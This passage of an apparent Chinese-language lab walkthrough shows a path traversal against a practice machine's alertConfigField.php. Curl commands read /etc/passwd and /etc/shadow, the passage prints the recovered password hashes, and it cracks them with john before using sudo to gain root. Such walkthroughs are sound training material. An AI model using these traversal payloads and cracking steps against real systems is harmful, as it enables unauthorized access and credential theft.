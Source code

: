 ```shell
curl --data-urlencode 'urlConfig=../../../../../../../../../etc/passwd' http://192.168.1.56/administrator/alerts/alertConfigField.php
```
![Pasted image 20250109201120.png](/img/user/picture/Pasted%20image%2020250109201120.png)
密码在shadow中，看一下能不能读
```shell
curl --data-urlencode 'urlConfig=../../../../../../../../../etc/shadow' http://192.168.1.56/administrator
/alerts/alertConfigField.php
```
![Pasted image 20250109201209.png](/img/user/picture/Pasted%20image%2020250109201209.png)

把有用信息提取一下保存到文件中
```txt
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
```

用john尝试破解
```shell
sudo john shadow.txt
```
![Pasted image 20250109205109.png](/img/user/picture/Pasted%20image%2020250109205109.png)


现在可以登录w1r3s
![Pasted image 20250109205210.png](/img/user/picture/Pasted%20image%2020250109205210.png)

尝试提权：

![Pasted image 20250109205229.png](/img/user/picture/Pasted%20image%2020250109205229.png)

发现用户具有sudo全部权限
![Pasted image 20250109205306.png](/img/user/picture/Pasted%20image%2020250109205306.png)

完成
![Pasted image 20250109205327.png](/img/user/picture/Pasted%20image%2020250109205327.png)
